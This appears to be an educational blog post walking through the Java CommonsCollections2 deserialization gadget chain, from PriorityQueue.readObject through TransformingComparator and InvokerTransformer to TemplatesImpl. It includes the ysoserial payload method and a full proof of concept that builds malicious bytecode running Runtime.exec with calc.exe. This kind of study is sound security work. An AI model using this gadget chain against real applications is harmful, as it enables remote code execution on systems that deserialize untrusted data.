

CommonsCollection2 uses Slightly different Approach
Although it uses the TemplatesImpl class to execute our controlled ByteCode along with InvokerTransformer but intead of chainedTransFormers it uses PriorityQueue
So lets First Dive in and understand what is PriorityQueue and how does it works.
import java.util.PriorityQueue;
public class SimplePriorityQueueDemo {
public static void main(String[] args) {
PriorityQueue pq = new PriorityQueue<>();
pq.add(30);
pq.add(10);
pq.add(20);
System.out.println("Elements in priority order:");
while (!pq.isEmpty()) {
System.out.println(pq.poll());
}
}
}
On the above code You wil see the numbers getting printed one by One.
Similarly in the priorityQueue Apart blank construcutors there are constructor that takes comparator and compares the numbers that are in the queue
AnotherClass ob=new AnotherClass()
PriorityQueue pq = new PriorityQueue(2,new ob);
pq.add("a");
pq.add("b")
The Another class looks like below
import java.io.IOException;
import java.io.Serializable;
import java.util.Comparator;
public class AnotherClass implements Comparator, Serializable {
public int compare(String a, String b) {
if(a.equals(b))
return 1;
else{
return -1
}
}
}
So the priorituQueue will execute the Compare Method Writeen on the AnotherClass.java file and will obtain the ouput
So basically the Constructor takes a comparator , executes the compare function present on it and then obtains the Output.
Now lets understand little bit more of the priorityQueue on Desr context
As we know from Vanila Java Desr method the data received By the readObject method gets executed , and lets say the data we sent is of a class which has a readObject then even if there is a class cast execption the readObject code will still get executed.
Examining the PriorityQueue, it has a readObject block that looks like Below.
private void readObject(java.io.ObjectInputStream s)
throws java.io.IOException, ClassNotFoundException {
// Read in size, and any hidden stuff
s.defaultReadObject();
// Read in (and discard) array length
s.readInt();
SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Object[].class, size);
final Object[] es = queue = new Object[Math.max(size, 1)];
// Read in all elements.
for (int i = 0, n = size; i < n; i++)
es[i] = s.readObject();
// Elements are guaranteed to be in "proper order", but the
// spec has never explained what that might be.
heapify();
}
The heapify() check if the comparator is null and if its not null it calls the siftDownUsingComparator().
This function uses the Comparator we provided it during the initilisation and calls the Compare() method.
So the code Written on the Compare Method Will get Executed.
Now Lets Jump into the Payload
public Queue<Object> getObject(final String command) throws Exception {
final Object templates = Gadgets.createTemplatesImpl(command);
// mock method name until armed
final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
// create queue with numbers and basic comparator
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
// stub data for replacement later
queue.add(1);
queue.add(1);
// switch method called by comparator
Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
// switch contents of queue
final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
queueArray[0] = templates;
queueArray[1] = 1;
return queue;
}
We are using TransFormingComparator .So the Compare() on TransFormingComparator will get Executed.
Lets Take a look into how the Compare() Looks like in the TransFormingCompartor.
public int compare(final I obj1, final I obj2) {
final O value1 = transformer.apply(obj1);
final O value2 = transformer.apply(obj2);
return decorated.compare(value1, value2);
}
It calls the Transformer.apply(), This transformer is the same TransFormer That we have passed
public TransformingComparator(final Transformer transformer) {
this(transformer, ComparatorUtils.NATURAL_COMPARATOR);
}
/**
* Constructs an instance with the given Transformer and Comparator.
*
* @param transformer what will transform the arguments to {@code compare}
* @param decorated the decorated Comparator
*/
public TransformingComparator(final Transformer transformer,
final Comparator decorated) {
this.decorated = decorated;
this.transformer = transformer;
}
And then it assigns it to this.transformer
So indeed it takes the TransFromer Provided by us and calls the TransForm() Method
But wait a sec, it calls the apply(), however there is not apply() in invokerTransformer, so there has to be some kind of code for the translation or apply() to transform
Check the code where the this.transForm is defined
private final Transformer transformer;
One thing to keep in mind is some modern Java frameworks (like Streams and Lambdas) allow functional interfaces (like Transformer) to be treated like Function
So the below code
Transformer<String, Integer>transformer = new InvokerTransformer<>("length", null, null); Integer length = transformer.transform("Hello"); // Calls transform() directlycan also be written as
Function<String, Integer> func = transformer::transform; // Adapts `Transformer` to `Function` Integer length = func.apply("Hello"); // Calls transform() via apply()
If you check the SuperClass i.e TransFormer.java you will see the below code
public interface Transformer<T, R> extends Function<T, R>{
@Override
default R apply(final T t) {
return transform(t);
}
/**
* Transforms the input object into some output object.
*
* The input object SHOULD be left unchanged.
*
*
* @param input the object to be transformed, should be left unchanged
* @return a transformed object
* @throws ClassCastException (runtime) if the input is the wrong class
* @throws IllegalArgumentException (runtime) if the input is invalid
* @throws FunctorException (runtime) if the transform cannot be completed
*/
R transform(T input);
}
This is how the apply function gets converted to transform()
So in the entire Payload we are using the templateImpl and using InvokerTransFormer to call "toString" on it for the code Execute
But wait in TemplatesImpl class there is no "toString" method , so how are we achieveing code Execution with it.
In ysoserial payload , in the later line the "toString" method is getting replaced with "newTransformer"
Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
And then again using Reflection we are chaingin the content of the queue to the templatesImpl code
So basically we are using TemplatesIMpl to load our bytecode, to call the newTransformer() on TemplatesImpl we use InvokerTransFormer and to reach till the invokerTransformer we are using
TransFormingComparator which again we reach via PriorityQueue's Constructor , and this whole thing will be allowed due to the ReadObject() present in the priorityQueue which will
Call the hepify() which will call the ShiftdownusingCompartor() and thus call the compareMethod .
Quick Question
Since we use Reflection and change the "toString" to newTransformer() can we use the newTransformer() directly in our local poc code to execute code.
Answer is Yes,
But the code wiil be slightly different.
The last 4 lines of the code will look somethingLike below.
InvokerTransformer transformer = new InvokerTransformer("newTransformer", new Class[0], new Object[0]);
PriorityQueue<TemplatesImpl< priorityQueue = new PriorityQueue<TemplatesImpl<(2, new TransformingComparator(transformer));
priorityQueue.add(templates);
priorityQueue.add(templates);
The Entire Code along with CreatesImpl for CommonsCollection2 will look like below with the Above Modification.
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import java.lang.reflect.Field;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.util.PriorityQueue;
import javax.xml.transform.Templates;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.*;
import org.apache.commons.collections4.comparators.TransformingComparator;
public class cc2 {
public static void main(String[] args) throws Exception {
String command="calc.exe";
ClassPool pool = ClassPool.getDefault();
/*
* So inside the pool.get() we can pass any random existing className , we just have to keep in mind that we call
* clazz.makeClassInitializer().insertAfter(cmd); and CtClass superC = pool.get(AbstractTranslet.class.getName());
clazz.setSuperclass(superC);
Reason for calling the above 2 are.
1.In TemplatesIMPL Class when we set the _byteCode to a bytecode of ourchoice, our bytecode must be extending the
AbstractTranslet.class or else TemplatesIMPL will not execute it(Figure out why)
*/
final CtClass clazz = pool.get(cc2.class.getName());
String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
command.replace("\\", "\\\\").replace("\"", "\\\"") +
"\");";
clazz.makeClassInitializer().insertAfter(cmd);
CtClass superC = pool.get(AbstractTranslet.class.getName());
clazz.setSuperclass(superC);
final byte[] classBytes = clazz.toBytecode();
byte[] maliciousBytecode =classBytes;
/*
* Till Line 58 we are creating an Object of TemplatesIMPL class and using reflection to set the _bytecode,_name and
* _tfactory , as these are necessary fields.
* Why can't we use the normal getters and setters(FigureOut)
*/
TemplatesImpl templates = new TemplatesImpl();
Field bytecodesField = TemplatesImpl.class.getDeclaredField("_bytecodes");
bytecodesField.setAccessible(true);
bytecodesField.set(templates, new byte[][]{maliciousBytecode});
Field nameField = TemplatesImpl.class.getDeclaredField("_name");
nameField.setAccessible(true);
nameField.set(templates, "Exploit");
Field tfacname = TemplatesImpl.class.getDeclaredField("_tfactory");
tfacname.setAccessible(true);
tfacname.set(templates, TransformerFactoryImpl.class.newInstance());
//templates.newTransformer();
/*
* Below we are using the transformer chain.
* The reason why we are taking TemplatesIMPL , we wanted to use InstantiateTransformer instead of invokerTransFromer
* InstantiateTransformer takes a class and initiates it as we provide.
*
* Why we use TrAxFilter.class
* If you see the line 65 there is templates.newTransfromer().This is exactly where our _bytecode gets executed.
* So while using the InstantiateTransformer, we have to find a subsequent class (Like Runtime.class in InvokerTransformer)
* that takes a entry of type Templates.class and calls the newTransformer() method
*
* But why so.
*
* If you see how exactly the InstantiateTransformer.transfrom() wroks , you will see the below code.
*
*
* public T transform(final Class input) {
final Constructor con = input.getConstructor(iParamTypes);
return con.newInstance(iArgs);
}
*
* So in the above code the transfrom() takes a class as input and calls the getConstructor(), which will return
* all the public constrcutors present in there , however it's also passing an argument in getConstructor of
* iParamTypes which it gets from the initilisation, so on the below code it will be Templates.class
*
* So what it will do, it will look for the constructor that takes an argument of type Templates.class and where will it
* look?
*
* It will look into the TrAXFilter.class for us cause that is what we are passing in.
* If we pass any other class , then it should meet the above criteria so that we can use the InstantiateTransformer.
*
*
* Once we set the Transfromer we are simply calling the chainedTransfromer but in a simple way
*/
InvokerTransformer transformer = new InvokerTransformer("newTransformer", new Class[0], new Object[0]);
PriorityQueue<TemplatesImpl< priorityQueue = new PriorityQueue<TemplatesImpl<(2, new TransformingComparator(transformer));
priorityQueue.add(templates);
priorityQueue.add(templates);
/*
Field field = PriorityQueue.class.getDeclaredField("queue");
field.setAccessible(true);
final Object[] queueArray = (Object[]) field.get(priorityQueue);
queueArray[0] = templates;
queueArray[1] = 1;
*/
}
}

This is how the CommonsCollection2 Payload works, staring from the EntryPoint to Code Execution
CommonsCollections2 uses a PriorityQueue and TransformingComparator instead of a chain of transformers or LazyMap.PriorityQueue.readObject(), which calls heapify().heapify() invokes compare() from the provided Comparator, in this case a TransformingComparator.TransformingComparator.compare() internally calls transformer.apply(), which maps to transformer.transform() due to interface inheritance.InvokerTransformer is used to invoke newTransformer() on a malicious TemplatesImpl object, which executes the injected bytecode.TemplatesImpl is used during comparison.newTransformer without needing to override it via reflection.Thats it for Today.
Thanks For Reading.
Happy Hacking.
You can connect with me at: